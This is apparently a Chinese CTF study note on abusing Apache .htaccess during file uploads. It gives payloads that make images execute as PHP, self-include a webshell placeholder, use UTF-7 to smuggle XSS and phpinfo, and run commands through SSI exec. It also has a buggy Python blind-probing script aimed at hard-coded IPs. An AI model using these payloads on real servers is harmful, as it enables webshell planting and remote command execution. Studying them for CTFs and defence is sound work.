在我们的 APACHE 中，我们需要一些规则，来规定我们怎么处理我们的一个子目录或者我们的服务器下的文件，而当中的配置文件，就是我们的 `.htaccess`。

而利用我们的 `.htaccess`，就可以实现我们的一个伪静态，例如我们使用 wordpress 搭建一个博客的时候，我们如果使用我们的 `.htaccess` 来搭建我们的一个伪静态，我们就可以把我们的 `ctf/xxxx.html` 转换为我们的 `artical.php?id=xxxx&type=ctf` 从而实现我们的 `htaccess`

而我们的 htaccess 的一大功能，就是能够进行我们的一个重写，我们在文件上传中的应用一般为：

1. 设置我们的文件解析格式
```
<FilesMatch "03.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

这样，我们就能把我们的 jpg 当作我们的 php 来解析


2. 文件包含：
```
php_value auto_append_file 文件名
```
通过我们的上述操作，我们就可以在执行我们的 php 文件之后，还能够去把我们的文件内容强制添加在我们的文件后方。同理，我们可以用 prepend 来添加到我们的前缀

同样，我们的 php 可以做到自我包含：
```
#.htaccess文件中应该添加的内容：

php_value auto_prepend_file .htaccess
# <?php 一句话木马;?>
```

3. 文件编码：
```
#.htaccess
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
php_value auto_append_file .htaccess
#+ADw-script+AD4-alert(1)+ADsAPA-/script+AD4
#+ADw?php phpinfo()+Ads
```

4. 与盲注相结合：
```python
import requests
import string
ip=request.get('http://118.24.185.188/ip.php').text
print(ip)
def check(a):
	f='''
	<if "file('/flag')=~/'''+a+'''/">
	ErrorDocument404 "wupco"
	</if>
	'''
	resp=requests.post("http://112.112.248.222:20003/index.php?id=167",data={'submit':'submit'},files={'file':('.htaccess',f)})
	a=requests.get("http://122.112.248.222:20003/upload/"+ip+"/a").text
	if"wupco" not in a:
		return false
	else:
		return true
```

5. SHTML 是使用 SSI 的 html 文件扩展名，SSI 通常被称为“服务器端嵌入”或者叫做“服务器端包含”，我们可以通过我们的上述操作来对我们的后端进行处理
```
.htaccess
AddType text/html .shtml
AddHandler server-parsed .shtml
Options Includes

1.shtml
<pre>
<!--#exec cmd="whoami"-->
</pre>
```